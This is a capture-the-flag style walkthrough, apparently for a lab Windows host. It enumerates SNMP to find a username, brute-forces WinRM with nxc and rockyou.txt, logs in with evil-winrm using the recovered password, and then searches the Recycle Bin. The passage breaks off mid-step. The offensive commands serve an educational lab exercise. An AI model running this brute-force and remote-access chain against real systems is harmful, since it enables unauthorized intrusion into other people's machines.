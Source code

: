 ### We have an empty page on port 80

<img width="1752" height="806" alt="image" src="https://github.com/user-attachments/assets/1b73eb8b-3cdc-45a3-b138-a28ec1eb479f" />

### I use snmp-check and find the username Jareth 

```
snmp-check 10.10.236.210 -c openview
```


### After I tried to brute-force the password with nxc


```
YTHONWARNINGS="ignore" nxc winrm 10.10.236.210 -u "Jareth" -p /usr/share/wordlists/rockyou.txt --ignore-pw-decoding | grep +
```

<img width="1089" height="87" alt="image" src="https://github.com/user-attachments/assets/fcde0a1e-e9da-4eeb-85f4-2412b7bebcff" />

```
Jareth:sarah
```

### I connected to winrm and get the user flag 

```
evil-winrm -i 10.10.236.210 -u "Jareth" -p "sarah"
```

<img width="528" height="261" alt="image" src="https://github.com/user-attachments/assets/1a4c0800-36f1-463a-a8d8-56a092aa8c40" />

### I checked the directories and found the Recycle Bin in C:\

```
Get-ChildItem -Path C:\ -Force
```
<img width="715" height="353" alt="image" src="https://github.com/user-attachments/assets/eaaa0f39-07bc-4f4a-9a27-cc333ab83b27" />

### I tried to copy the directory, but it didn t work. However, we found the full path.

```
Get-ChildItem -Path 'C:\$Recycle.Bin' -Force -Recurse | Copy-Item -Destination C:\Users\ -Force -Recurse -ErrorAction SilentlyContinue
```

<img width="1262" height="117" alt="image" src="https://github.com/user-attachments/assets/a63b38b7-9a13-4bc2-9adf-a09835839afa" />

### I tried to copy it, but it was empty, so I went back one directory to find another S-1...
